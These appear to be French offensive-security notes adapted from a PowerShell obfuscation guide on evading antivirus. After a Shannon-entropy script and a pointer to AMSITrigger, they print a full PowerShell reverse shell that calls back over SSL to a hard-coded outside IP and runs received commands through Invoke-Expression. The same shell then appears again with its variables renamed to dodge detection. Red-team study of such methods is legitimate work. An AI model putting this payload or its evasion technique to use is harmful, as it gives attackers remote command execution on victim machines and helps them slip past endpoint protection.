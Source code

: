 Source : https://github.com/t3l3machus/PowerShell-Obfuscation-Bible/blob/main/README.md

L'**obfuscation** est le fait de **rendre** un payload **plus obscure** afin d'**évader** les protections **Antivirus**.

## __Entropie__

L'**entropie** est une notion mathématique qui vise à **mesurer** à quel point un **payload est aléatoire**, si une chaine est composé exclusivement d'un seul caractère son entropie sera 0, **plus il y a de caractère différent plus l'entropie va augmenter**, le calcul prend aussi en compte la **fréquence d'apparition** de ces caractères.

Pour la calculer on a implémenté la **formule de Claude E. Shannon** en python :

```python
#!/bin/python3
# Usage: python3 entropy.py <file>

import math, sys

def entropy(string):
    "Calculates the Shannon entropy of a UTF-8 encoded string"

    # decode the string as UTF-8
    unicode_string = string.decode('utf-8')

    # get probability of chars in string
    prob = [ float(unicode_string.count(c)) / len(unicode_string) for c in dict.fromkeys(list(unicode_string)) ]

    # calculate the entropy
    entropy = - sum([ p * math.log(p) / math.log(2.0) for p in prob ])

    return entropy


f = open(sys.argv[1], 'rb')
content = f.read()
f.close()

print(entropy(content))
```

![[Entropy1.png]]


## __Identify Detection Triggers__

Avant d'effectuer une tentative d'obscusissement du code, il faut **savoir ce qui déclanche l'alerte**, pour se faire, on peut utiliser **[AMSITrigger](https://github.com/RythmStick/AMSITrigger)**.

On peut également le faire à la main en regardant les erreurs.


## __Rename Objects__


```powershell
PS > "$TCPClient = New-Object Net.Sockets.UDPClient('20.235.121.153', 8181);$NetworkStream = $TCPClient.GetStream();$SslStream = New-Object Net.Security.SslStream($NetworkStream,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$SslStream.AuthenticateAsClient('cloudflare-dns.com',$null,$false);if(!$SslStream.IsEncrypted -or !$SslStream.IsSigned) {$SslStream.Close();exit}$StreamWriter = New-Object IO.StreamWriter($SslStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()};WriteToStream '';while(($BytesRead = $SslStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```

```powershell
PS > "$kpykyyhakxbgfe = New-Object Net.Sockets.UDPClient('20.235.121.153', 8181);$naa1uyzc6a9a526j = $kpykyyhakxbgfe.GetStream();$gyvfl8nd2wmvr0a = New-Object Net.Security.SslStream($naa1uyzc6a9a526j,$false,({$true} -as [Net.Security.RemoteCertificateValidationCallback]));$gyvfl8nd2wmvr0a.AuthenticateAsClient('cloudflare-dns.com',$null,$false);if(!$gyvfl8nd2wmvr0a.IsEncrypted -or !$gyvfl8nd2wmvr0a.IsSigned) {$gyvfl8nd2wmvr0a.Close();exit}$z0coq2szpfkxt4 = New-Object IO.StreamWriter($gyvfl8nd2wmvr0a);function WriteToStream ($0yjea14ea1) {[byte[]]$script:Buffer = 0..$kpykyyhakxbgfe.ReceiveBufferSize | % {0};$z0coq2szpfkxt4.Write($0yjea14ea1 + 'SHELL> ');$z0coq2szpfkxt4.Flush()};WriteToStream '';while(($8kwjkmbth = $gyvfl8nd2wmvr0a.Read($2kjs0qho00t, 0, $2kjs0qho00t.Length)) -gt 0) {$glxfjr1s8n02k1zp = ([text.encoding]::UTF8).GetString($2kjs0qho00t, 0, $8kwjkmbth - 1);$15x0e1yh0 = try {Invoke-Expression $glxfjr1s8n02k1zp 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($15x0e1yh0)}$z0coq2szpfkxt4.Close()"
```